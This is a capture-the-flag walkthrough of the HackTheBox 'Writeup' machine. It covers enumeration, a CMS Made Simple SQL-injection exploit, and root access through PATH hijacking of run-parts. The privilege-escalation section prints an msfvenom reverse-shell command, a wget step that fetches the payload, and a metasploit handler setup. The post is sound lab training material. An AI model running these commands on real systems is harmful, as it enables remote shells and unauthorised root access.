 ```yaml
---
title: "HackTheBox Walkthrough - WriteUp"
categories:
  - Hackthebox
tags:
  - hackthebox
  - htb
  - cms
  - pspy
  - search order hijacking
classes: wide
---
```


![Banner](https://opalsec.github.io/assets/images/writeup/banner.png)

# Overview:

This machine was a good reminder to do the basics of enumeration - robots.txt is still used commonly in the wild to blacklist directories for bots to crawl, and definitely came in handy here.

The privesc was a challenge as none of my usual enumeration methods worked, but as a result I've now added pspy to my playbook to help better enumerate running processes on a target machine.

I personally don't think this should be rated as easy - the CMS exploit was a stab in the dark and the process for finding the privesc was also pretty niche, relying on a tool that not a lot of people know about. Medium - Hard is probably more appropriate for the average user of HTB.

Thanks to HTB and jkr for another great box to work through!

# Enumeration
As always, start with an nmap scan to identify listening ports and services:
```
root@kali:~# nmap -sS -sC -sV -vv -Pn -p- -oA /home/montana/Documents/hackthebox/writeup/allscan 10.10.10.138
```

Which provides us with...not a whole lot to go on:
```
Nmap scan report for 10.10.10.138
Host is up, received user-set (0.26s latency).
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE    REASON         VERSION
22/tcp open  ssh        syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKBbBK0GkiCbxmAbaYsF4DjDQ3JqErzEazl3v8OndVhynlxNA5sMnQmyH+7ZPdDx9IxvWFWkdvPDJC0rUj1CzOTOEjN61Qd7uQbo5x4rJd3PAgqU21H9NyuXt+T1S/Ud77xKei7fXt5kk1aL0/mqj8wTk6HDp0ZWrGBPCxcOxfE7NBcY3W++IIArn6irQUom0/AAtR3BseOf/VTdDWOXk/Ut3rrda4VMBpRcmTthjsTXAvKvPJcaWJATtRE2NmFjBWixzhQU+s30jPABHcVtxl/Fegr3mvS7O3MpPzoMBZP6Gw8d/bVabaCQ1JcEDwSBc9DaLm4cIhuW37dQDgqT1V
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPzrVwOU0bohC3eXLnH0Sn4f7UAwDy7jx4pS39wtkKMF5j9yKKfjiO+5YTU//inmSjlTgXBYNvaC3xfOM/Mb9RM=
|   256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEuLLsM8u34m/7Hzh+yjYk4pu3WHsLOrPU2VeLn22UkO
80/tcp open  tcpwrapped syn-ack ttl 63
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Port 80

Browsing to port 80, it's an ASCII art landing page, which makes a point of having supposedly been compiled with love in vi:

![index](https://opalsec.github.io/assets/images/writeup/index.png)

As the kids say (I think) - weird flex, but okay.

Part of my (and many others') standard enumeration is to crawl for common directories for additional information and a way in. For this, I turn to my trusty wfuzz query:
```
root@kali:~# wfuzz -w /opt/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.138/FUZZ -c --hh 0 --hc 404 
```

Unfortunately for me, the creator of this VM has put in place DoS protection (Eeyore, an OG DoS protection script) that's tanking my enumeration in the early stages:
![block](https://opalsec.github.io/assets/images/writeup/block.png)

Before starting down the rabbithole of trying to figure out how to beat the DoS protection, I tried one more common check - what's in robots.txt?

Again, an easy way for an attacker to find a starting point for things to look at - the blacklisted directories that an admin doesn't want you to see.

![robot](https://opalsec.github.io/assets/images/writeup/robot.png)

Taking a look at it, it's just a dump of notes the author is supposedly planning on uploading at some stage. Again - the weird flex about the page being written in a text editor...or not?

![writeup](https://opalsec.github.io/assets/images/writeup/writeup.png)

Thinking in that vein, I had a look but couldn't find any trace of what it was made with, and didn't see how it'd be relevant to progressing on this machine. 

After trawling through the pages again and finding nothing, I fired up burp and browsed to the same pages and saw this cookie:

![cookie](https://opalsec.github.io/assets/images/writeup/cookie.png)

A quick google shows it's for a basic CMS called "CMS Made Simple". Searching in Exploit-DB, we can see there's a bunch of historical and recent exploits for this CMS:

![exploitdb](https://opalsec.github.io/assets/images/writeup/exploitdb.png)

Despite my best efforts, I was unable to find any version information, and the best indication I had was some pages had the copyright for CMS up to 2019 

![copyright](https://opalsec.github.io/assets/images/writeup/copyright.png)

Given this, I decided to work backwards through the exploits until I found one that worked - 46635.

# Exploitation

This was a very cool script, and running it with the --crack option took out the extra work that I'd otherwise have had to do with hashcat/JTR

![script](https://opalsec.github.io/assets/images/writeup/script.png)

The script iterates through characters to bruteforce the salt and hashed password, which it then cracks:

![pass](https://opalsec.github.io/assets/images/writeup/pass.png)

I then SSH'd on to get the contents of user.txt

# Privilege Escalation

Classic enumeration techniques like LinEnum.sh didn't help, and after a caving and asking for a hint on the HTB discord, I got a great hint from [Gorgamite](https://www.hackthebox.eu/home/users/profile/82774), who said I should download [a tool called pspy](https://github.com/DominicBreuker/pspy) and watch what happened when a user SSH'd in.

I downloaded it and hosted it on Kali with SimpleHTTPServer, and retrieved it with wget:
```
jkr@writeup:/tmp$ wget http://10.10.10.138:8000/pspy64; chmod +x pspy64; ./pspy64
```

Which showed me this:
```
2019/10/11 02:18:56 CMD: UID=0    PID=3509   | sshd: jkr [priv]  
2019/10/11 02:18:56 CMD: UID=0    PID=3510   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/updat
e-motd.d > /run/motd.dynamic.new 
2019/10/11 02:18:56 CMD: UID=0    PID=3511   | run-parts --lsbsysinit /etc/update-motd.d 
2019/10/11 02:18:56 CMD: UID=0    PID=3512   | uname -rnsom 
2019/10/11 02:18:56 CMD: UID=0    PID=3513   | sshd: jkr [priv]  
2019/10/11 02:18:56 CMD: UID=1000 PID=3514   | sshd: jkr@pts/2   
2019/10/11 02:18:56 CMD: UID=1000 PID=3515   | -bash 
2019/10/11 02:18:56 CMD: UID=1000 PID=3516   | -bash 
2019/10/11 02:18:56 CMD: UID=1000 PID=3517   | -bash 
2019/10/11 02:18:56 CMD: UID=1000 PID=3518   | -bash 
2019/10/11 02:19:01 CMD: UID=0    PID=3519   | /usr/sbin/CRON 
2019/10/11 02:19:01 CMD: UID=0    PID=3520   | /usr/sbin/CRON 
2019/10/11 02:19:01 CMD: UID=0    PID=3521   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```

Every time a user logged in, the run-parts program was run without a file-path specified. This is great for us, as leaves it open to search order hijacking, meaning if we place a malicious binary with the same name higher up in the $PATH, our program will run instead.

To do this is generated a simple Linux reverse shell using msfvenom, with the same name as the binary being run on the endpoint:
```
root@kali:/home/montana/Documents/hackthebox/writeup# msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.14.17 LPORT=1234 -f elf -o run-parts
```

The important part is to make sure this is dropped as high up in the $PATH variable as possible to ensure it's run instead of the legit binary. In this case when checking /usr/local, we have write permissions to both sbin and bin, but it looks like the creator of the VM stripped read access - just to make life difficult:

![write](https://opalsec.github.io/assets/images/writeup/write.png)

As we can write to /usr/local/sbin, which is the first path in the $PATH variable, I hopped over to the directory; hosted my exploit with SimpleHTTPServer, and retrieved it on the remote end with wget. 

```
jkr@writeup:/usr/local/sbin$ wget http://10.10.14.17:8000/run-parts; chmod +x run-parts
```

![wget](https://opalsec.github.io/assets/images/writeup/wget.png)

To force the endpoint to run my program, all I had to do was start an SSH connection in another terminal while listening on netcat.

Unfortunately while it did cause the program to run, the connection died as soon as I tried to enter a command.

I couldn't figure out why, so I decided to use metasploit's multi/handler to see if I'd have better luck with that:

```
# start the db if it's not already up, and launch msfconsole:
$> /usr/share/metasploit-framework/msfdb run

# select /multi/handler:
$> use /multi/handler

# configure it to listen on port 1234 on all interfaces with the same payload we used with msfvenom:
$> set LHOST 0.0.0.0
$> set LPORT 1234
$> set payload /linux/x64/shell/reverse_tcp

# kick it off:
$> run
```

Going through the same process of kicking our malicious binary off by starting an SSH session, we get a callback with a root shell:

![rootshell](https://opalsec.github.io/assets/images/writeup/rootshell.png)

There's no prompt which makes this ugly, but it's done the job - here's our flag:

![flag](https://opalsec.github.io/assets/images/writeup/flag.png)

P.S.: I'd also mention that while I didn't check what the /root/bin/cleanup.pl script was doing, it appeared to wipe my reverse shell periodically, meaning I'd have to ensure I re-downloaded it and spun up the SSH connection before it ran again.
